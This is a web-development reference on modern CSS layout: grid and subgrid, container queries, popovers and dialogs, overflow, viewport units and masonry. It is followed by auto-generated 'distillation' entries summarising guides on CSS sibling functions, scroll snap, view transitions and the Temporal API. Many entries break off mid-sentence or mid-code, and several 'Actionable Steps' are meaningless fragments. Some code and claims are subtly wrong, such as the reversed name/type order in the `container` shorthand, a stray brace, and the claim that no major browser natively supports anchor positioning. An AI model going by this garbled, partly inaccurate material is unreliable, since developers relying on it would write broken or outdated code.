Supported by: Chrome 117 (Sep 2023), Edge 117 (Sep 2023), Firefox 71 (Dec 2019), and Safari 16 (Sep 2022).

Two-dimensional layout — define rows AND columns explicitly, or let the engine derive them. Subgrid lets a nested grid inherit its parent's tracks so grandchildren align across siblings.

**Choosing grid features:**

- Do you know exactly how many columns you need?
  - **Yes** — use explicit tracks (`grid-template-columns: 200px 1fr`, `repeat(3, 1fr)`, etc.)
    - Do different columns need different sizes (sidebar + main, header spanning all)? → use `grid-template-areas` for named, readable regions
    - Are all columns uniform or positioned purely by line number? → use `repeat(N, ...)` or named lines
  - **No** (responsive, unknown item count) — use `repeat(auto-fit, minmax(min, 1fr))`
    - Should items on the last row stretch to fill remaining space? → `auto-fit`
    - Should empty last-row tracks hold their min size (preserving column ghost slots)? → `auto-fill`
- Do you need to place an item at a specific location?
  - **Yes** — use `grid-column: <start> / <end>` or `grid-area: <name>`
  - **No** (just spanning multiple tracks, flow position doesn't matter) — use `grid-column: span <n>`
- Do child elements need to inherit the parent grid's track sizes (ragged-edge alignment across siblings)?
  - **Yes** — use subgrid on the affected axis
    - Is the number of children per cell variable? → subgrid **one axis only**; use `grid-auto-rows`/`grid-auto-columns` for the other
    - Is the child count fixed? → subgrid on both axes is fine
  - **No** — standard grid, no subgrid needed

**Do:**

- Establish a context with `display: grid`.
- Use `grid-template-areas` for complex page-level layouts — area names are self-documenting and the declaration can be aligned in rows and columns for at-a-glance readability.
- Use `repeat(auto-fit, minmax(200px, 1fr))` for responsive card grids that stretch filled tracks to fill the row, or `auto-fill` to preserve empty repeated tracks at their min size.
- Use `fr` for proportional track distribution and `minmax(min, max)` for flexible-but-bounded tracks.
- Position items with `grid-column: span <n>` to size across tracks, `grid-column: <start> / <end>` to place at specific lines, or `grid-area: <name>` for named regions.
- Use subgrid (`grid-template-columns: subgrid` or `grid-template-rows: subgrid`) to solve the "ragged edge" problem in card lists — internal elements like titles, metadata, and CTAs line up across siblings.
- Pair a subgrid declaration with a preceding explicit `grid-template-rows`/`-columns` declaration as a same-cascade fallback for older browsers.

**Do not:**

- Don't expect `auto-fit`/`auto-fill` track size to come from item content — it comes from the `repeat()` size argument.
- Don't use `grid-auto-flow: dense` on interactive content. It packs items efficiently but reorders them visually, breaking DOM-order keyboard tab flow.
- Don't apply subgrid to both axes when the child count is variable. Extras land in the last track; use `grid-auto-rows`/`grid-auto-columns` for the implicit axis instead.
- Don't confuse `justify-items`/`align-items` (aligns item content *within its track*) with `justify-content`/`align-content` (aligns the grid tracks *within the container*). Using the wrong one silently has no effect.
- Don't use `repeat(auto-fit/auto-fill, ...)` without a definite `inline-size` on the container — inside `display: inline-grid` or an unsized flex item, the container has no width to divide, making track counts unpredictable.

### 3.1 Code example: grid and subgrid

Page shell: `<main class="page-layout">` contains `<header>`, `<aside>`, a `<section class="card-grid">` with `<div class="card">` children, and `<footer>`.

```css
/* Align grid-template-areas in rows and columns for readability. */
.page-layout {
  display: grid;
  grid-template-columns: repeat(3, 1fr);
  grid-template-areas:
    "header  header  header"
    "sidebar main    main"
    "footer  footer  footer";
  gap: 1.5rem;
}

header  { grid-area: header; }
aside   { grid-area: sidebar; }
footer  { grid-area: footer; }

.card-grid {
  grid-area: main;
  display: grid;
  grid-template-columns: repeat(auto-fill, minmax(240px, 1fr));
  grid-template-rows: auto 1fr; /* title block, body block */
  gap: 1rem;
}

.card {
  grid-row: span 2;
  display: grid;
  /* Same-cascade fallback: ignored when subgrid is supported. */
  grid-template-rows: auto 1fr;
  grid-template-rows: subgrid;
}
```

## 4 Container queries

Baseline status for Container queries: Widely available. It's been Baseline since 2023-02-14.
Supported by: Chrome 105 (Sep 2022), Edge 105 (Sep 2022), Firefox 110 (Feb 2023), and Safari 16 (Sep 2022).

Query the size (or computed style) of an ancestor container rather than the viewport. Mental model: container queries = component context; media queries = global page layout and user preferences (`prefers-color-scheme`, `prefers-reduced-motion`).

**Do:**

- Establish a containment context with `container-type: inline-size` (width-only queries) or `container-type: size` (both axes) on a wrapper before its descendants can be queried.
- Name containers with `container-name` (or the `container` shorthand: `container: inline-size card`) when nested contexts could collide.
- Include container query units in calculating fluid type and spacing: `cqi`/`cqb` (logical inline/block), `cqw`/`cqh` (physical), `cqmin`/`cqmax`.
- Give the container a definite `block-size` whenever `container-type: size` is used — without one, descendants collapse because size containment forces the container to ignore its content.

**Do not:**

- Don't use `block-size` as a `container-type` value — it isn't valid. Use `size` for both axes.
- Don't expect children's intrinsic size to influence the container after declaring `container-type`. The container is computed as if it has no children once containment is active.
- Don't rely on container query units inside descendants of a non-qualifying ancestor; they fall back to the small viewport (`svw`/`svh`).

### 4.1 Code example: fluid typography using container query units

```css
.card-wrapper {
  container: inline-size / card; /* shorthand for container-type + container-name */
}

@container card (inline-size > 400px) {
  .content {
    display: flex;
    gap: 2rem;
  }
}

.title {
  /* Fluid type bound to the container width, not the viewport. */
  font-size: clamp(1rem, 4cqi, 2rem);
}
```

> For component-driven responsive styling patterns, see `size-aware-styling` (via `npx -y modern-web-guidance@latest retrieve "size-aware-styling"`) and `fluid-scaling` (via `npx -y modern-web-guidance@latest retrieve "fluid-scaling"`).

## 5 Native overlays, anchor positioning, and stacking contexts

Baseline status for <dialog>: Widely available. It's been Baseline since 2022-03-14.
Supported by: Chrome 37 (Aug 2014), Edge 79 (Jan 2020), Firefox 98 (Mar 2022), and Safari 15.4 (Mar 2022).
Baseline status for Popover: Newly available. It's been Baseline since 2025-01-27.
Supported by: Chrome 116 (Aug 2023), Edge 116 (Aug 2023), Firefox 125 (Apr 2024), Safari 17 (Sep 2023), and Safari iOS 18.3 (Jan 2025).
Anchor positioning is not natively supported by any major browser yet.

**When to use each overlay primitive:**

- Use `popover` for transient, non-modal UI (flyouts, toasts, tooltips) — lives in the top layer, no `z-index` management needed.
- Use `<dialog>` with `.showModal()` for modal interactions that require focus trapping and an inert backdrop.
- Don't combine `popover` and `.showModal()` on the same element — they're mutually exclusive runtime states.

**Anchor positioning (spatial layout of overlays):**

- Use `position-area` (or `anchor()` on insets) and `anchor-size()` to position and size an overlay relative to its trigger.
- Use `position-try-fallbacks: flip-block` (or `flip-inline`) to let the browser reposition when the overlay overflows the viewport.
- Don't mix physical and logical keywords in a single `position-area` value — pick one coordinate system.
- Feature-detect with `@supports (anchor-name: --x)` and provide an absolute-position fallback.

> For full implementation detail, polyfill strategies, and `popover` value reference, see `declarative-dialog-popover-control` (via `npx -y modern-web-guidance@latest retrieve "declarative-dialog-popover-control"`) and `position-aware-tooltips` (via `npx -y modern-web-guidance@latest retrieve "position-aware-tooltips"`). For anchor positioning applied to menus and tab indicators, see `resilient-context-menus-and-nested-dropdowns` (via `npx -y modern-web-guidance@latest retrieve "resilient-context-menus-and-nested-dropdowns"`) and `anchor-positioning-tab-underline` (via `npx -y modern-web-guidance@latest retrieve "anchor-positioning-tab-underline"`).

## 6 Overflow tracking and layout stability

Baseline status for scrollbar-gutter: Newly available. It's been Baseline since 2024-12-11.
Supported by: Chrome 94 (Sep 2021), Edge 94 (Sep 2021), Firefox 97 (Feb 2022), and Safari 18.2 (Dec 2024).
line-clamp is not natively supported by any major browser yet.

Manage layout shifts, scrollbars, and clipping predictably.

**Do:**

- Use `overflow: auto` so scrollbars appear only when content actually overflows.
- Use `overflow: clip` to clip content **without** establishing a scroll container; opt into spillover with `overflow-clip-margin`.
- Use `scrollbar-gutter: stable` to reserve space for scrollbars and prevent layout shifts when content grows.
- Use `overscroll-behavior: contain` (or `none`) on scrollable containers to stop scroll chains from bubbling into the parent or document.
- Use the `-webkit-line-clamp` + `display: -webkit-box` + `-webkit-box-orient: vertical` triad for multi-line truncation — despite the prefix, this pattern is fully specified and not deprecated. Declare the unprefixed `line-clamp` shorthand alongside it; browsers that don't yet support it ignore the property harmlessly.
**Do not:**

- Don't use `overflow: scroll` when `auto` will do — `scroll` forces scrollbars even when there's nothing to scroll.
- Don't reach for `overflow: hidden` when you only want to clip — `hidden` establishes a scroll container that can be programmatically scrolled.

```css
.scrollable-list {
  max-block-size: 400px;
  overflow-y: auto;
  scrollbar-gutter: stable;       /* Reserve scrollbar space. */
  overscroll-behavior: contain;   /* No scroll chaining into the page. */
}

.snippet {
  display: -webkit-box;
  -webkit-line-clamp: 3;
  -webkit-box-orient: vertical;
  line-clamp: 3;                  /* Ignored where unsupported. */
  overflow: clip;
}
```

> For `overflow: clip` and `overflow-clip-margin` in depth, see `overflow-clipping-control` (via `npx -y modern-web-guidance@latest retrieve "overflow-clipping-control"`). For scrollbar color, sizing, and theming, see `customize-scrollbar-color-and-thickness` (via `npx -y modern-web-guidance@latest retrieve "customize-scrollbar-color-and-thickness"`), `dark-mode` (via `npx -y modern-web-guidance@latest retrieve "dark-mode"`), and `adapt-scrollbar-to-contrast-preferences` (via `npx -y modern-web-guidance@latest retrieve "adapt-scrollbar-to-contrast-preferences"`).

## 7 Viewport mechanics and track distribution

Baseline status for Small, large, and dynamic viewport units: Widely available. It's been Baseline since 2022-12-05.
Supported by: Chrome 108 (Nov 2022), Edge 108 (Dec 2022), Firefox 101 (May 2022), and Safari 15.4 (Mar 2022).

- Use `dvh`/`dvw` for mobile layout containers that must account for browser UI shifting (URL bar collapse/expand).
- Don't use `100vw` for full-width layout — it ignores scrollbar width and causes horizontal overflow. Use `100%`, `100dvw`, or `100svw` instead.

> For the full viewport unit reference (`svh`, `lvh`, `dvi`, `dvb`, etc.), see `css` (via `npx -y modern-web-guidance@latest retrieve "css"`).

## 8 Grid lanes (aka masonry)

Masonry is not natively supported by any major browser yet.

The spec is in development. The currently agreed-upon name is "grid lanes" (e.g., `display: grid-lanes`). Firefox ships `grid-template-rows: masonry` behind a flag; no other engines ship it in stable as of this writing.

**Do:**

- Use grid with `grid-auto-flow: dense` for tight packing today, accepting that DOM order may not match visual order.
- Use multi-column (`columns: 3; column-gap: 1rem`) for content-heavy masonry-like flow when items are document fragments rather than equal-weight cards.
- Treat `grid-template-rows: masonry` as a progressive enhancement only — feature-detect with `@supports`.

**Do not:**

- Don't ship `grid-template-rows: masonry` as a hard requirement until your Baseline target catches up.

```css
.gallery       { columns: 3 200px; column-gap: 1rem; }
.gallery > *   { break-inside: avoid; margin-block-end: 1rem; }

@supports (grid-template-rows: masonry) {
  .gallery {
    display: grid;
    grid-template-columns: repeat(auto-fill, minmax(200px, 1fr));
    grid-template-rows: masonry;
    gap: 1rem;
    columns: unset;
  }
}
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [database, ui-ux, performance, tdd]

### 📘 KNOWLEDGE: NEXUS_DISTILLATION_DATABASE.MD

> **VERSION**: v3 | **Last Updated**: 26/05/2026


## 🎓 DATABASE WISDOM DISTILLATION [v1109] - 26/05/2026
> **Protocol**: Autonomous Intelligence Extraction | **Focus**: Actionable Tech Insights

### 📄 Implementation Steps
> **Origin**: `guides/user-experience/[calculate-with-intrinsic-sizes.md](NEXUS_CALCULATE-WITH-INTRINSIC-SIZES.MD)` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
`calc-size()` is a CSS function for performing mathematical operations on intrinsic sizing keywords like `auto`, `min-content`, and `fit-content`. **MANDATORY**: Use `calc-size()` only when you need to modify an intrinsic size with a calculation or constraint; for simple keyword-based animations (e.g., `0` to `auto`), you must use `interpolate-size: allow-keywords`.


1. **Identify the Intrinsic Basis**: Determine which intrinsic keyword (`auto`, `min-content`, etc.) should form the base of your calculation.
2. **Define Constraints**: Use CSS math functions like `clamp()`, `min()`, or `max()` within the second argument to enforce design constraints on the intrinsic size.
3. **MANDATORY: Provide a Fallback**: Always declare a standard sizing keyword or length immediately before the property using `calc-size()` to ensure the layout remains functional in unsupported browsers.
4. **Apply Logical Properties**: Default to using logical properties like `inline-size` or `block-size` to ensure the calculations respect the document's writing mode.
5. **Optional: Progressive Enhancement**: Wrap complex layout logic or animations in a `@supports (inline-size: calc-size(auto, size + 0p...

#### 🔗 Traceability:
- [Source Context]([calculate-with-intrinsic-sizes.md](NEXUS_CALCULATE-WITH-INTRINSIC-SIZES.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Styling siblings based on count and index
> **Origin**: `guides/user-experience/[dynamic-sibling-styling.md](NEXUS_DYNAMIC-SIBLING-STYLING.MD)` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
Historically, applying unique styles to each sibling in a list required complex `:nth-child` loops or JavaScript to inject inline styles. Modern CSS provides `sibling-index()` and `sibling-count()` to perform these calculations directly in your stylesheet, enabling dynamic layouts and color systems that automatically adapt as elements are added or removed.


You can create a color spectrum across a group of siblings by calculating a unique hue or lightness value for each child. This ensures a consistent gradient effect regardless of the number of items.

```css
.swatch {
  /* Calculate hue by dividing the full 360deg circle by total siblings */
  /* and multiplying by the current element's 1-based index */
  background-color: hsl(
    calc(360deg / sibling-count() * sibling-index()),
    70%,
    50%
  );
}
```


To create symmetrical effects (like a "fan" or centering items), use the total count to find the midpoint of the list.

```css
.card {
  /* Find the center index (e.g., 3 if there are 5 siblings) */
  --center: calc((sibling-count() + 1) / 2);

  /* Rotate items away from the center: negative for left, positive for right */
  /* center element...

#### 🔗 Traceability:
- [Source Context]([dynamic-sibling-styling.md](NEXUS_DYNAMIC-SIBLING-STYLING.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Expose canvas content to browser features
> **Origin**: `guides/user-experience/[expose-canvas-content-to-browser-features.md](NEXUS_EXPOSE-CANVAS-CONTENT-TO-BROWSER-FEATURES.MD)` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
Action</button>
  </div>
</canvas>

<script>
  const canvas = document.getElementById("canvas");
  const gl = canvas.getContext("webgl");
  const uiElement = document.getElementById("ui-element");

  // Setup WebGL texture...
  const texture = gl.createTexture();
  gl.bindTexture(gl.TEXTURE_2D, texture);

  canvas.onpaint = () => {
    // 1. Update texture with HTML content
    if (gl.texElementImage2D) {
      gl.texElementImage2D(
        gl.TEXTURE_2D,
        0,
        gl.RGBA,
        gl.RGBA,
        gl.UNSIGNED_BYTE,
        uiElement,
      );
    }

    // ... Render your 3D scene here, calculating htmlElementMVP matrix ...

    // 2. Sync DOM position with 3D scene
    if (canvas.getElementTransform) {
      const mvpDOM = new DOMMatrix(Array.from(h

#### 🔗 Traceability:
- [Source Context]([expose-canvas-content-to-browser-features.md](NEXUS_EXPOSE-CANVAS-CONTENT-TO-BROWSER-FEATURES.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Overview
> **Origin**: `guides/user-experience/[navigation-drawer.md](NEXUS_NAVIGATION-DRAWER.MD)` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
action patterns that users are accustomed to in native mobile apps.

#### 🔗 Traceability:
- [Source Context]([navigation-drawer.md](NEXUS_NAVIGATION-DRAWER.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Build a Parallax Effect on Scroll
> **Origin**: `guides/user-experience/[parallax-scroll-effects.md](NEXUS_PARALLAX-SCROLL-EFFECTS.MD)` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
A parallax effect on scroll is a visual technique where different layers of content move at varying speeds as the user scrolls down a page. This creates an illusion of depth, with foreground elements appearing to move faster than the background elements, resulting in an engaging and immersive browsing experience. This effect is best achieved using CSS Scroll-Driven Animations, which allow you to link animations to the scroll position of a container.


Here’s how to create a basic parallax effect:

1.  **Create a wrapper element:** This element simply groups all the layers of the parallax effect together. It is not the scrollable element, so its overflow should be clipped. Also give it a `height` that matches the height of one of the layers of the parallax effect.

    ```html
    <div class="wrapper">
      …
    </div>
    ```

    ```css
    .wrapper {
      overflow: clip;
      height: 100vh; /* Height of one of the layers of the parallax */
    }
    ```

2.  **Declare the layers:** Inside the wrapper, add the individual layers that will move at different speeds.

    ```html
    <div class="wrapper">
      <div class="layer">LAYER 0</div>
      <div...

#### 🔗 Traceability:
- [Source Context]([parallax-scroll-effects.md](NEXUS_PARALLAX-SCROLL-EFFECTS.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 1. Define the Button and Panel Relationship
> **Origin**: `guides/user-experience/[resilient-context-menus-and-nested-dropdowns.md](NEXUS_RESILIENT-CONTEXT-MENUS-AND-NESTED-DROPDOWNS.MD)` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
action panel or popover button group is a useful pattern for users to access additional functionality while taking up minimal space. This overlay pattern comes with layout complexity, as the panel must remain tethered to a trigger element while adapting to viewport constraints. Traditionally, this required complex JavaScript libraries (like Popper.js or Floating UI) to calculate positions and handle collisions.

CSS Anchor Positioning provides a declarative, performance-optimized way to handle these relationships entirely in CSS, allowing browsers to manage the positioning and overflow logic natively.

> [!NOTE]
> This guide demonstrates anchor-positioning and popover mechanics — it does not prescribe a specific accessible UI pattern. The trigger and panel below are shown as a plain *

#### 🔗 Traceability:
- [Source Context]([resilient-context-menus-and-nested-dropdowns.md](NEXUS_RESILIENT-CONTEXT-MENUS-AND-NESTED-DROPDOWNS.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Same Document Transitions
> **Origin**: `guides/user-experience/[same-document-transitions.md](NEXUS_SAME-DOCUMENT-TRANSITIONS.MD)` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
Web sites often provide multiple views of an object, for instance a list of products, and then a detail page for each product. Navigating between the two views often feels disconnected. When a user clicks a product thumbnail to view its details, the thumbnail disappears and a new, larger image appears instantly elsewhere on the screen. This lack of continuity makes it harder for users to track relationships between elements.


The **View Transitions API** allows you to specify element pairs that exist in different states before and after a transition. When triggering a transition with `document.startViewTransition()` in a Single Page Navigation (SPA), the browser identifies these shared elements by their shared unique `view-transition-name`. It then automatically calculates the difference in their position, size, and styling, and animates them smoothly from the old state to the new state. This transition occurs in the top layer, above even elements with high `z-index` values.


For Single-Page Applications (SPAs) or simple state changes, wrap the logic that updates the DOM in `document.startViewTransition`. The browser captures a snapshot of the current state, runs th...

#### 🔗 Traceability:
- [Source Context]([same-document-transitions.md](NEXUS_SAME-DOCUMENT-TRANSITIONS.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Overview
> **Origin**: `guides/user-experience/[scroll-snap-realtime-feedback.md](NEXUS_SCROLL-SNAP-REALTIME-FEEDBACK.MD)` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
Users expect immediate visual feedback when interacting with UI elements like carousels or galleries. Traditional scroll snap only provides feedback *after* the scroll gesture completes and the element settles. By using Scroll Snap Events, specifically `scrollsnapchanging`, you can provide real-time feedback during the scroll gesture, highlighting the pending snap target before the user releases their touch or mouse.


Attach an event listener for `scrollsnapchanging` to the scroll container. This event fires when the browser determines a new snap target is likely to be selected.

```javascript
const container = document.querySelector('#gallery');
const thumbnails = document.querySelectorAll('.thumbnail');
const items = document.querySelectorAll('.gallery-item');

container.addEventListener('scrollsnapchanging', (event) => {
  // Highlight pending snap target during scroll for real-time feedback.
  const pendingTarget = event.snapTargetInline;
  const index = [...items].indexOf(pendingTarget);

  if (index === -1 || !thumbnails[index]) return;

  // Use lightweight class toggle to avoid layout thrashing during rapid events.
  // Note: aria-current is NOT toggl...

#### 🔗 Traceability:
- [Source Context]([scroll-snap-realtime-feedback.md](NEXUS_SCROLL-SNAP-REALTIME-FEEDBACK.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Implementation
> **Origin**: `guides/user-experience/[scroll-snap-state-sync.md](NEXUS_SCROLL-SNAP-STATE-SYNC.MD)` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
Synchronizing UI state with a scrollable container's snap position traditionally required complex scroll event listeners, manual calculations of scroll offsets, and intersection observers. The `scrollsnapchange` event provides a native, efficient way to detect when a scroller has settled on a new snap target, making it useful for synchronizing sidebars or highlighting the active section in a table of contents.


The container must have `scroll-snap-type` defined, and have children with `scroll-snap-align` for the browser to track snap targets. In a long article with a table of contents, you can use this to snap section headers to the top of the viewport.

```css
main {
    /* Enable scroll snapping on the container */  
  scroll-snap-type: y proximity;
  overflow-y: auto;
}

h2 {
  /* Define how headers align when snapped */
  scroll-snap-align: start;
}
```


Use the `scrollsnapchange` event on the scroll container to react when the user finishes scrolling and the browser snaps to a new element. In our TOC demo, we use this to highlight the active link in the sidebar.

```html
<!-- MANDATORY: Wrap table of contents links inside a proper navigation landmar...

#### 🔗 Traceability:
- [Source Context]([scroll-snap-state-sync.md](NEXUS_SCROLL-SNAP-STATE-SYNC.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Scrollytelling
> **Origin**: `guides/user-experience/[scrollytelling.md](NEXUS_SCROLLYTELLING.MD)` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
Scrollytelling is a popular technique used to create engaging and immersive web experiences. It involves animating elements on a page as the user scrolls, effectively telling a story or guiding the user through a narrative. With CSS Scroll-Driven Animations, you can create these effects directly in CSS, without needing to rely on JavaScript. The animations are controlled by the scroll position, not a time-based clock, which ensures they are always in sync with the user's scroll.


To create a scrollytelling experience, you need two sets of elements: one to track the scroll position and another to be animated.

First, define a named `view-timeline` on the elements you want to track. These will act as the drivers for your animations.

```css

  section:nth-child(1){ view-timeline: --tl-1 block; }
  section:nth-child(2){ view-timeline: --tl-2 block; }
  section:nth-child(3){ view-timeline: --tl-3 block; }
  section:nth-child(4){ view-timeline: --tl-4 block; }
  section:nth-child(5){ view-timeline: --tl-5 block; }
}
```

Next, apply animations to the elements you want to animate and link them to the timelines you just created using the `animation-timeline` property.
...

#### 🔗 Traceability:
- [Source Context]([scrollytelling.md](NEXUS_SCROLLYTELLING.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Search hidden content
> **Origin**: `guides/user-experience/[search-hidden-content.md](NEXUS_SEARCH-HIDDEN-CONTENT.MD)` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
Web interfaces often hide content from view to improve the user experience, save screen space, or increase page performance. Traditional methods like `display: none` or `visibility: hidden` work to hide content visually, but they also make that content completely inaccessible to screen readers and browser features like "Find in page".

To hide content visually but still allow it to be searchable by users and enable it to be deep linked to via URL fragments and "Scroll to Text Fragment" links, you can use either the HTML `<details>` element or the `hidden="until-found"` attribute. The `<details>` element is generally recommended as it's simpler to implement and maintain, but there are some more complex cases where `<details>` is not sufficient and `hidden="until-found"` is required.

For example:

- If you want full control over the styling of the show/hide mechanism.
- If the UI controls to show/hide the content are in another part of the DOM.
- If you don't want to support hiding the content after it's shown.


The `<details>` element has searchable and accessible text by default, and no special implementation is required. Prefer using `<details>` over `hidden="until-...

#### 🔗 Traceability:
- [Source Context]([search-hidden-content.md](NEXUS_SEARCH-HIDDEN-CONTENT.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Stack Drill Down
> **Origin**: `guides/user-experience/[stack-drill-down.md](NEXUS_STACK-DRILL-DOWN.MD)` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
action patterns users expect from native mobile apps.

#### 🔗 Traceability:
- [Source Context]([stack-drill-down.md](NEXUS_STACK-DRILL-DOWN.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Swipe to remove
> **Origin**: `guides/user-experience/[swipe-to-remove.md](NEXUS_SWIPE-TO-REMOVE.MD)` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
action that hooks directly into the browser's scrolling engine. This ensures high performance and physics-based momentum without needing a complex JavaScript gesture library.

The same pattern works for any single-action swipe (remove, archive, mark as read, snooze). The action visuals change; the mechanics do not.

#### 🔗 Traceability:
- [Source Context]([swipe-to-remove.md](NEXUS_SWIPE-TO-REMOVE.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [database, ui-ux, performance]

### 📘 KNOWLEDGE: NEXUS_DISTILLATION_TDD.MD

> **VERSION**: v3 | **Last Updated**: 26/05/2026


## 🎓 TDD WISDOM DISTILLATION [v1109] - 26/05/2026
> **Protocol**: Autonomous Intelligence Extraction | **Focus**: Actionable Tech Insights

### 📄 Calculating Event Differentials with Temporal
> **Origin**: `guides/user-experience/[calculate-event-differentials.md](../tdd/NEXUS_CALCULATE-EVENT-DIFFERENTIALS.MD)` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
Calculating the time elapsed between events (such as trial expirations, subscription durations, or prorated costs) has historically been difficult with the legacy `Date` object due to complexities with time zones, daylight saving time (DST), and inconsistent parsing.

The `Temporal` API provides a modern, robust solution for date and time arithmetic. Specifically, `Temporal.ZonedDateTime` and `Temporal.Duration` enable exact, DST-safe calculations of time differences.


To calculate differentials between two events:

1.  **Obtain ZonedDateTime objects**: Convert your inputs (dates and times) into `Temporal.ZonedDateTime` objects. This ensures calculations are time-zone aware.
2.  **Calculate active time with `.since()`**: Use `currentZonedDateTime.since(startZonedDateTime)` to find the time elapsed since a start event.
3.  **Calculate remaining time with `.until()`**: Use `currentZonedDateTime.until(endZonedDateTime)` to find the time remaining until a future event.
4.  **Control precision with options**: Use `largestUnit`, `smallestUnit`, and `roundingMode` to control how the resulting duration is balanced and rounded.


```javascript
// 1. Get current time point...

#### 🔗 Traceability:
- [Source Context]([calculate-event-differentials.md](../tdd/NEXUS_CALCULATE-EVENT-DIFFERENTIALS.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Capturing Location-Agnostic Data with Temporal
> **Origin**: `guides/user-experience/[capture-location-agnostic-data.md](../tdd/NEXUS_CAPTURE-LOCATION-AGNOSTIC-DATA.MD)` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
Recording chronological data that should remain identical regardless of the viewer's location (such as birthdates, recurring alarms, or national holidays) has historically been error-prone with the legacy `Date` object. Because `Date` objects always represent a specific instant in time and are tied to a time zone, saving a date like "1990-01-01" can result in users in different time zones seeing "1989-12-31" due to offset shifts.

The `Temporal` API introduces "Plain" types—such as `Temporal.PlainDate` and `Temporal.PlainTime`—which have no concept of a time zone. These types represent calendar dates and wall-clock times exactly as you would read them off a calendar or a clock, making them ideal for location-agnostic data.


To capture and display location-agnostic data:

1.  **Use `Temporal.PlainDate` for dates**: For data like birthdates or holidays, use `Temporal.PlainDate.from()` to create an instance from an ISO 8601 string or an object.
2.  **Use `Temporal.PlainTime` for times**: For data like a daily alarm or a preferred lunch time, use `Temporal.PlainTime.from()`.
3.  **Display without conversion**: Since these objects are time-zone unaware, they will display the...

#### 🔗 Traceability:
- [Source Context]([capture-location-agnostic-data.md](../tdd/NEXUS_CAPTURE-LOCATION-AGNOSTIC-DATA.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Creating a stagger animation
> **Origin**: `guides/user-experience/[dynamic-sibling-animations.md](../tdd/NEXUS_DYNAMIC-SIBLING-ANIMATIONS.MD)` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
actions.

#### 🔗 Traceability:
- [Source Context]([dynamic-sibling-animations.md](../tdd/NEXUS_DYNAMIC-SIBLING-ANIMATIONS.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Formatting Human-Readable Durations with Temporal
> **Origin**: `guides/user-experience/[format-human-readable-durations.md](../tdd/NEXUS_FORMAT-HUMAN-READABLE-DURATIONS.MD)` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
Presenting elapsed time or durations to users in a readable format (e.g., "1 hour and 30 minutes") has historically required manual math or external libraries. The `Temporal` API's `Temporal.Duration` class simplifies this by providing structured duration objects and powerful "balancing" capabilities via the `round()` method.


To format a duration:

1.  (**MANDATORY**) **Create a Duration**: Use `Temporal.Duration.from()` to create a duration object from a set of units.
2.  (**OPTIONAL**) **Apply Balancing**: Use the `round()` method with the `largestUnit` option to control how units are balanced. For example, to convert 90 minutes into hours and minutes, or to keep it as total minutes.
3.  (**MANDATORY**) **Build the Display String**: Access the specific unit properties (like `.hours`, `.minutes`) to construct the human-readable string manually, or **(Recommended)** use `Intl.DurationFormat` for a localized, automatic approach.


```javascript
// 1. Create a duration (e.g., from user input)
const duration = Temporal.Duration.from({ minutes: 90 });

// 2. Balance to hours (converts 90 minutes to 1 hour and 30 minutes)
const balanced = duration.round({ largestUni...

#### 🔗 Traceability:
- [Source Context]([format-human-readable-durations.md](../tdd/NEXUS_FORMAT-HUMAN-READABLE-DURATIONS.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 How to implement
> **Origin**: `guides/user-experience/[interest-triggered-action-previews.md](../tdd/NEXUS_INTEREST-TRIGGERED-ACTION-PREVIEWS.MD)` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
actions before they commit to them. Interest invokers are an experimental web platform feature that provides a declarative-based way of creating interest relationships between an interest source (i.e. a button or a link) and an interest target. Once the declarative relationship has been established there are a number of methods a developer can respond to based on interest and loss of interest using both CSS and JavaScript. For this use case, we can leverage the `interest` and `loseinterest` events to preview various effects for an interest target.

#### 🔗 Traceability:
- [Source Context]([interest-triggered-action-previews.md](../tdd/NEXUS_INTEREST-TRIGGERED-ACTION-PREVIEWS.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 The problem
> **Origin**: `guides/user-experience/[position-aware-tooltips.md](../tdd/NEXUS_POSITION-AWARE-TOOLTIPS.MD)` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
When building tooltips or popovers with CSS Anchor Positioning, the browser can automatically "flip" the element to a fallback position if it would otherwise overflow the viewport. When this happens, you may want to adjust the style of the positioned content, for instance to reposition an arrow that points from the positioned content to the anchor.

**Anchored Container Queries** solve this by allowing you to query the active positioning state of an element and apply styles accordingly.


